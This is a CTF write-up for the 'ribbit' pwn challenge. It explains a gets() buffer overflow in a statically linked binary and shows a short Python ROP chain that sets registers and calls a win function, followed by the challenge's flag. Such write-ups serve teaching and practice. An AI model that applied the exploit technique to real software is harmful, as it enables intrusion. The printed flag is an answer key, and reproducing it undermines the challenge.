


# ribbit

### Challenge:
##### Oh no! My pet frog got stuck inside a giant hole! Can you help him ROP out?.

##### Files: [Dockerfile](Dockerifle), [ribbit.c](ribbit.c), [ribbit](ribbit)
##### Links: ```nc chal.nbctf.com 30170```

### Solution:

We have a bof in the frog() function due to a gets call, the binary is statically linked so we have all the gadgets we want.

There's a win function that gives us our flag if we call it with the correct parameters so we can simply rop our way to victory:



```py
to_write = b"You got this!"+b"\x00"*8+b"Just do it!"+b"\x00"*8
payload = b"A"*40 + write(WRITABLE, to_write) + POP_RDI + p64(0xf10c70b33f) + POP_RSI + p64(WRITABLE) + p64(elf.sym["win"])
```

This ropchain writes to a writable address the value the 2nd parameter needs to take, then it sets 1st and 2nd parameters registers to the correct values and calls the win function.

Solve script: [solve.py](solve.py)

Flag: ```nbctf{ur_w3lc0m3_qu454r_5abf2e}``